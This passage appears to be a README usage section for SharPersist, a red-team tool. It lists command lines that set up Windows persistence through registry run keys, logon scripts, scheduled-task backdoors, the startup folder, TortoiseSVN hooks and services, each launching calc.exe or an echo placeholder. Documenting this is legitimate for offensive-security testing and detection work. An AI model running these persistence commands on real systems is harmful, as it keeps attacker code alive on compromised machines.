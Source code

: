 SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add

Registry
```
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
```

Scheduled Task Backdoor
```
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add
```
Startup Folder
```
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
```
Tortoise SVN

SharPersist -t tortoisesvn -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -m add

Windows Service
```
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
```
Scheduled Task
```
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add

SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o hourly
```
